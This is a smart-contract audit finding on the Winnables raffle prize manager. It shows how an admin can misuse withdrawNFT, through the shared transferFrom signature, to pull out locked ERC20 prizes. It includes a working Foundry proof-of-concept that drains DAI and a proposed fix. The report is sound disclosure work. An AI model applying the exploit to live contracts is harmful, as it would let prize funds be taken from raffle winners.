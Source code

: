 Dry Arctic Hawk

High

# An admin could withdraw a raffle's winner prize if the reward is an ERC20 Token.

### Summary

An admin(Actor with the 0 role) could ensure a user doesn't claim their prize if the prize is an IERC20 token or even drain the prizeManager of any ERC20 token locked as prizes for raffles. 
### Affected Files
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L230


### Root Cause

*Notice* An admin is a trusted actor in the system, this report is not implying an admin is malicious but to clarify the capability/power the admin role holds.
Assume an initial scenario whereby a raffle has been settled and the propagateRaffleWinner has been called, the crosschain payload has been sent and the winner address has been set in the prizeManager for  a raffleId.The admin is allowed to withdraw(NFT's,ERC20 Tokens and ETH) that isn't locked in the protocol. Every raffleId has an associated locked prize , which according to the sherlock homepage it is not withdrawable i quote "Winnables admins cannot do anything to prevent a winner from withdrawing their prize".
But this isn't always the case an admin could withdraw locked ERC20 tokens in the pool this is because the *withdrawNFT()* method uses transferfrom to send an nft which isn't locked could also be used to withdraw any ERC20 tokens in the prizeManager(Locked or Unlocked) simply because the ERC721 TransferFrom && ERC20 TransferFrom has the same method signature the 'tokenId' param in the ERC721 would just act as the number of tokens to withdraw.
An admin calling the withdrawNFT() method passing in a locked nft address & tokenId would always revert,but an admin calling the withdrawNFT passing in a locked ERC20 token and any tokenId(arbitrary number of tokens to withdraw) would succeed.

### Internal pre-conditions

_No response_

### External pre-conditions

- The raffle Id must have a winner .
- There must be locked ERC20 prize in the PrizeManager.

### Attack Path

- After a raffle-Id winner has been set in the PrizeManager.
- Call the withdrawNFT method with the ERC20 token and the amount of tokens to withdraw as tokenId.
- That way when the raffle winner calls claimPrize it would always revert.

### Impact

- A raffle winner would not be able to claim an ERC20 prize which is one of the major invariants on this protocol(See audit homePage under design choices).


### PoC

```  solidity
/**
 * SPDX-License-Identifier:UNLICENSED
 * @author:<Noone>
 */
pragma solidity ^0.8;
import {Test} from "forge-std/Test.sol";
import "../contracts/WinnablesPrizeManager.sol";

contract PrizeManagerTest is Test {
    WinnablesPrizeManager private prizeManager;
    address private linkToken = 0x514910771AF9Ca656af840dff83E8264EcF986CA;
    address private ccipRouter = 0x80226fc0Ee2b096224EeAc085Bb9a8cba1146f7D;
    address private admin = makeAddr("ADMIN");
    address private ticketManager = makeAddr("TICKET-MANAGER");
    uint64 chainSelector = 6433500567565415381; //doesn't matter
    address private DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;

    constructor() {
        vm.createSelectFork(vm.envString("ETH_RPC_URL"));
        _deployContracts();
        _init();
    }

    function _deployContracts() internal {
        _asAdmin();
        prizeManager = new WinnablesPrizeManager(linkToken, ccipRouter);
        //deal prizeManager tokens to cover for ccip fees.
        deal(linkToken, address(prizeManager), 1e18);
    }

    function _init() internal {
        _asAdmin();
        prizeManager.setCCIPCounterpart(ticketManager, chainSelector, true);
    }

    //Test demonstrating a scenario whereby an admin could withdraw locked ERC20 Tokens
    //This could be escalated to a scenario whereby admin denies a raffle-winner of prize by draining prizeManager of the prize ERC20 Tokens causing the claimPrize method to always fail due to insufficient amount..
    function testMaliciousAdminCouldPreventRaffleWinner() external {
        //Assuming the prizeManager has 1k Locked DAI..
        //It is expected that the admin cannot withdraw any locked tokens right?😎
        _lockTokens(DAI, 1000e18, 1);
        _asAdmin();
        prizeManager.withdrawNFT(DAI, 1000e18);
        assertEq(IERC20(DAI).balanceOf(admin), 1000e18);
        assertEq(IERC20(DAI).balanceOf(address(prizeManager)), 0);
    }

    function _lockTokens(
        address tokens,
        uint256 amount,
        uint256 raffleId
    ) internal {
        deal(tokens, address(prizeManager), amount);
        _asAdmin();
        prizeManager.lockTokens(
            ticketManager,
            chainSelector,
            raffleId,
            tokens,
            amount
        );
    }

    function _asAdmin() internal {
        vm.startPrank(admin);
    }
}


### Mitigation

- A fix would be to verify if the tokens being withdrawn is an NFT..
- This could be done by calling functions distinct to the ERC721 implementations like tokenURI().
``` solidity 
 //FIX
    function withdrawNFTFix(address nft, uint256 tokenId) external onlyRole(0) {
        if (_nftLocked[nft][tokenId]) revert NFTLocked();
        try IERC721(nft).tokenURI(tokenId) returns (string memory) {} catch {
            revert("Token is not an NFT");
        }
        IERC721(nft).transferFrom(address(this), msg.sender, tokenId);
    }